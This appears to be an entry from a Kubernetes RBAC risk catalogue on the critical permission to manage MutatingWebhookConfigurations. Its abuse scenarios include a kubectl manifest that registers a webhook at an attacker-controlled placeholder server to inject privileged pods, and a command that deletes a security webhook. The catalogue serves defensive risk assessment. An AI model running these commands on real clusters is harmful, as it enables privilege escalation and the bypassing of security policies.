 ```yaml
---
id: 1043
title: "Manage MutatingWebhookConfigurations"
description: "Grants control over MutatingWebhookConfigurations, which can modify API objects during admission. This is extremely critical as an attacker can create or alter webhooks to inject malicious configurations, escalate privileges, bypass security policies, or cause denial of service."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                     |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1043                                                                                                                      |
| Name                    | Manage MutatingWebhookConfigurations                                                                                      |
| Risk Category           | Tampering                                                                                                                 |
| Risk Level              | {{< risk Critical >}}                                                                                                     |
| Role Type               | ClusterRole                                                                                                               |
| API Groups              | admissionregistration.k8s.io                                                                                              |
| Resources               | mutatingwebhookconfigurations                                                                                             |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                  |
| Tags                    | {{< tag "DenialOfService" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WebhookManipulation" >}} |

## Description

Grants control over MutatingWebhookConfigurations, which can modify API objects during admission. This is extremely critical as an attacker can create or alter webhooks to inject malicious configurations, escalate privileges, bypass security policies, or cause denial of service.

## Abuse Scenarios

1. Create a new MutatingWebhookConfiguration to inject privileged containers into pods.

```bash
kubectl create -f - <<EOF
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: privileged-injector
webhooks:
- name: privileged-injector.example.com
  clientConfig:
    url: "https://<malicious-webhook-server>/mutate" # Attacker-controlled server
    caBundle: <base64-encoded-ca-cert> # Self-signed CA for attacker's server
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  failurePolicy: Ignore # To avoid breaking legitimate operations
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete a critical MutatingWebhookConfiguration, potentially bypassing security policies.

```bash
kubectl delete mutatingwebhookconfiguration <webhook-name>
# Example: kubectl delete mutatingwebhookconfiguration pod-defaults-webhook

```
